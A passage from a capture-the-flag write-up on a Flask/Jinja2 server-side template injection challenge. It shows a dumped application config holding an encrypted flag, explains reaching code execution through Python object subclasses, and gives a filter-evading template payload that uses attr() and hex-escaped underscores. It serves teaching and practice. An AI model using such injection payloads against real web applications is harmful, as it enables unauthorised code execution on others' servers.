 ```yml
            'SERVER_NAME': None,
            'APPLICATION_ROOT': '/',
            'SESSION_COOKIE_NAME': 'session',
            'SESSION_COOKIE_DOMAIN': False,
            'SESSION_COOKIE_PATH': None,
            'SESSION_COOKIE_HTTPONLY': True,
            'SESSION_COOKIE_SECURE': False,
            'SESSION_COOKIE_SAMESITE': None,
            'SESSION_REFRESH_EACH_REQUEST': True,
            'MAX_CONTENT_LENGTH': None,
            'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200),
            'TRAP_BAD_REQUEST_ERRORS': None,
            'TRAP_HTTP_EXCEPTIONS': False,
            'EXPLAIN_TEMPLATE_LOADING': False,
            'PREFERRED_URL_SCHEME': 'http',
            'JSON_AS_ASCII': True,
            'JSON_SORT_KEYS': True,
            'JSONIFY_PRETTYPRINT_REGULAR': False,
            'JSONIFY_MIMETYPE': 'application/json',
            'TEMPLATES_AUTO_RELOAD': None,
            'MAX_COOKIE_SIZE': 4093,
            'flag': "C\x1eS\x1dwsef}j\x057i\x7fo{D)'dO,+sutm3F"}>,
            'request': <Request 'http://127.0.0.1:10017/' [POST]>,
            'session': <SecureCookieSession {}>,
            'g': <flask.g of 'app'>
    } of None>
}
```

_Note: be sure to use double-quotes (`"`) as the single ones are blacklisted._

Here we find an encrypted flag again: `'flag': "C\x1eS\x1dwsef}j\x057i\x7fo{D)'dO,+sutm3F"`

## Decrypting the flag

Just like [yesterday's challenge]({{% ref "writeups/adventofctf/2020/challenge_16.md" %}}), the flag is encrypted and we probably have to get the source again to get the key used to encrypt the flag. To get the source we first need arbitrary code execution.

### Arbitrary Code Execution (ACE)

Unfortunately, we cannot grab the `os` module using the same method as yesterday as it requirers the config class and we cannot easily get it. This means we have to find another way.

Another common trick to get the code execution is by having a look at the subclasses of the `object` class. We can get it by taking the following path: `''.__class__.__mro__[1].__subclasses__()`. This gets the class of `string`, reads it superclasses by getting `__mro__`, gets the `object` class from index `1` and then reads its superclasses by using the `__subclasses__()` method.

To get the subclasses, we first have to convert `''.__class__.__mro__[1].__subclasses__()` to an acceptable input. This becomes:

```text
{{ [""|attr("\x5f\x5fclass\x5f\x5f")|attr("\x5f\x5fmro\x5f\x5f")][0][1]|attr("\x5f\x5fsubclasses\x5f\x5f")() }}
```
